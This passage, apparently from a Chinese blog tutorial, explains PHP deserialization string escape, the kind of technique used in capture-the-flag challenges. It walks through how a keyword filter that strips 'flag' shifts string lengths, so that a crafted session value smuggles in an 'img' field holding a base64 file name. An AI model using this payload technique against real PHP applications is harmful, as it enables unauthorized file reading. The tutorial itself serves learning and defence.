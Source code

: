 一般我们会认为，只要增加或去除str的任何一个字符都会导致反序列化的失败。 但是事实并非如此，如果我们在str结尾的花括号后再增加一些字符呢？例如：

<img src="https://img-blog.csdnimg.cn/20200821111843190.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70#pic_center" alt="在这里插入图片描述"> 仍然可以输出上面的结果，这说明反序列化的过程是有一定识别范围的，在这个范围之外的字符(第二个例子里的abc)都会被忽略，不影响反序列化的正常进行。

5、接下来看看下面的例子：

```
&lt;?php
  $_SESSION["user"]='flagflagflagflagflagflag';
  $_SESSION["function"]='a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:2:"dd";s:1:"a";}';
  $_SESSION["img"]='L2QwZzNfZmxsbGxsbGFn';
  echo serialize($_SESSION);
?&gt;


```

结果为：

```
a:3:{s:4:"user";s:24:"flagflagflagflagflagflag";s:8:"function";s:59:"a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:2:"dd";s:1:"a";}";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";}


```

假设后台存在一个过滤机制，会将含flag字符替换为空，那么以上序列化字符串过滤结果为：

```
a:3:{s:4:"user";s:24:"";s:8:"function";s:59:"a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:2:"dd";s:1:"a";}";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";}


```

将这串字符串进行序列化会得到什么？

这个时候关注第二个s所对应的数字，本来由于有6个flag字符所以为24，现在这6个flag都被过滤了，那么它将会尝试向后读取24个字符看看是否满足序列化的规则，也即读取`;s:8:"function";s:59:"a`,读取这24个字符后以`”;`结尾，恰好满足规则，而后第三个s向后读取img的20个字符，第四个、第五个s向后读取均满足规则，所以序列化结果为：

```
array(3) { 
  ["user"]=&gt; string(24) "";s:8:"function";s:59:"a" 
  ["img"]=&gt; string(20) "ZDBnM19mMWFnLnBocA==" 
  ["dd"]=&gt; string(1) "a" 
}


```

写成数组形式也即：

```
$_SESSION["user"]='";s:8:"function";s:59:"a';
$_SESSION["img"]='ZDBnM19mMWFnLnBocA==';
$_SESSION["dd"]='a';


```
